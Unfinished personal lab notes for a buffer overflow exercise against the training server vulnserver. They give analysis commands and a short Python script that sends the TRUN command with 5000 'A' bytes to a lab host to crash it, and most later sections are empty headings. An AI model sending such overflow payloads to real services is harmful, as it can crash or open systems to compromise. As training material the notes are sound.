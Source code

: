     https://z3r0th.medium.com/a-simple-buffer-overflow-using-vulnserver-86b011eb673b
_________________________________________________________________________________________________________________
### Static Analysis
#### Performing basic analysis
    strings secureserverind.exe | more
    file secureserverind.exe
_________________________________________________________________________________________________________________
### Running the program
#### Checking the ports to see if the port we identified is listening
    netstat -antot
_________________________________________________________________________________________________________________
### Using linux to make script
#### Script is to create socket to connect to the program we identified
    vim winbuff.py
```
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 5000

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ## Creating Socket, IPv4 TCP
s.connect(("192.168.65.20", 9999)) ## Define host and port
print s.recv(1024) ## Print to screen the response
s.send(buf) ## Send variable buf
print s.recv(1024) ## Print to screen the response
s.close() ## Close the socket
```
_________________________________________________________________________________________________________________
### Run immunitydebugger as admin
#### File > attach > select instance > attach > click run/red arrow


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
